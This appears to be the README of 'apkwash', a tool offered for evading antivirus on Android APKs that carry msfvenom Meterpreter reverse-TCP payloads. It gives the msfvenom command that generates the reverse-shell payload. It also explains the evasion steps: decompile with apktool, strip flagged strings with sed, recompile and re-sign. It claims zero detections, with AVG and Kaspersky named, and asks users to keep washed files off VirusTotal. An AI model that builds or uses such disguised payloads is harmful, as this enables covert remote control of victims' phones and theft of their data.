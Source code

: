 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input.<br>
Ex: msfvenom -p android/meterpreter/reverse_tcp LHOST=\<IP> LPORT=\<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
washed_\<payload>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<b>Modifiations</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
